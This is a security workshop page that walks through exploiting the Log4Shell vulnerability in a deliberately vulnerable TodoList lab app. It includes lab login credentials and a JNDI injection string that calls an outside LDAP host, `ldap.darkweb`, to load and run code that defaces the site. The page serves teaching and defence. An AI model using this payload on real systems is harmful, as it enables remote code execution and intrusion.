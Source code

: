 +++
title = "Step 2: Exploit a Vulnerable Open Source component"
chapter = false
weight = 42
+++

## Exploiting an RCE vulnerability in the TodoList application. 

The `Goof` repo TodoList application includes various exploits to demonstrate the risks of open source vulnerabilities. We'll demonstrate the infamous Log4Shell vulnerability as an example of an extremenly prolific open source package with a critical CVE that was relatively easy to exploit and gives malicous actors a remote code execution (RCE) vector of attack.

### Open the website
This example is best exploited from your browser so open a tab and navigate to the `todolist` application's loadbalancer address with `/todolist` appended to it.  That hostname was stored in the `TODOLIST_LB` variable during a prior section so you can easily get a string for the URL by echoing it out like this:


```sh
echo $TODOLIST_LB/todolist
```
```sh
a4b2da77928d242b38e4229083fc2669-2133201151.us-east-2.elb.amazonaws.com/todolist
```

When you open that URL in your browser, you should see the ToDoList welcome page
![todolist-welcome-page](/images/todolist-welcome.png)

### Log into the app
Click "Sign in" and log into the form with the following pre-populated user account:

* User: foo@bar.org
* Password: foobar

![todolist-login](/images/todolist-login.png)

### Trigger the exploit
In the search field enter the following string `${jndi:ldap://ldap.darkweb:80/#Vandalize}` and submit the search.
![todolist-search](/images/todolist-search-jndi.png)

### Vandalized!
Immediately, you can see that the header for the entire site has been modified to show a the hacker equivelent of graffiti!
![todolist-vandalized](/images/todolist-vandalized.png)

## What?  Why?
A full rundown of the Log4Shell issue is out of scope for this workshop but the high level description is:

* This application is pulling in an older version of the log4j open source library
* The log4j code (at that version) blindly interpolates the JNDI addresses and queries the network for remote values
* Search queries are being logged by the application using log4j
* When the interpolated `${jndi:ldap://ldap.darkweb:80/#Vandalize}` string was encountered, log4j queried an LDAP server named `ldap.darkweb` to ask for something named "/#Vandalize"
* 'ldap.darkweb' is a malicous LDAP impersonator that recognized this request and interacted with log4j code in a way that caused malicuous Java bytecode to be returned and run in the JVM by log4j
* That bytecode modified the header.jsp file in this webapp

The returned bytecode could have done far more mallicous things, not the least of which would be to open a remote, reverse shell into the container.

## Catching and stoping this
In the next step we will look into ways to catch and fix vulnerabilities like this.

